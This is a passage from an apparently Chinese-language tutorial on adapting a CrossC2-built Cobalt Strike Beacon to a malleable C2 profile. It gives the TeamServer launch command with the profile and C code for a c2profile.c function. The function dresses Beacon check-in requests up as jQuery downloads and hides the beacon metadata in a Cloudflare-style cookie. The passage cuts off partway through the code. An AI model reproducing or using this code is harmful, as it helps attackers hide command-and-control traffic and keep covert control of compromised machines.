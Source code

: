 ![](https://gitee.com/fuli009/images/raw/master/public/20210805100046.png)

那么这里就需要在c2profile.c文件的`cc2_rebind_http_post_recv`函数中实现`base64_encode(decode_mask(base64_decode(find_payload(data))))`(这里是伪代码)，这样即可拿到被AES加密的元数据，随后将元数据再进行base64编码后向下传递。  

同样的`client
{...}`中描述了Beacon发送给TeamServer的数据是如何编码的，那么在发送给TeamServer之前就需要按Profile中的配置进行编码，那么意味着我们需要在`cc2_rebind_http_post_send`中实现`base64_encode(mask_encode(base64_decode(x)))`的操作。

![](https://gitee.com/fuli009/images/raw/master/public/20210805100047.png)

同样的`http-get { ... }`配置处的实现思路也是一样的  

TeamServer会根据Profile中配置的这个顺序从下往上进行解密拿到AES加密的元数据,这个过程TeamServer在内部已经实现了。而CrossC2生成的Beacon是不会根据Profile中的配置进行生成的，所以需要手动编写编码和解码的部分。

## 带上C2-Profile重启TeamServer

    
    
    ./teamserver 192.168.225.24 123456 jquery-c2.4.0.profile  
    

## 实现方式1

将C2-Profile中的mask编码去掉，下图只截了`http-post`，还需要去掉`http-get`部分的mask。

![]()

之后来编写c2profile.c文件  

    
    
    #include <stdio.h>  
    #include <stdlib.h>  
    #include <string.h>  
    #include <unistd.h>  
      
    void cc2_rebind_http_get_send(char *reqData, char **outputData, long long *outputData_len) {  
        char *requestBody = "GET /%s HTTP/1.1\r\n"  
                            "Host: code.jquery.comr\n"  
                            "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"  
                            "Accept-Encoding: gzip, deflate\r\n"  
                            "User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko\r\n"  
                            "Cookie: __cfduid=%s\r\n"  
                            "Referer: http://code.jquery.com/\r\n"  
                            "Connection: close\r\n\r\n";  
        char postPayload[20000];  
        sprintf(postPayload, requestBody, "jquery-3.3.1.min.js", reqData);  
      
        *outputData_len =  strlen(postPayload);  
        *outputData = (char *)calloc(1,  *outputData_len);  
        memcpy(*outputData, postPayload, *outputData_len);  
      
    }  
      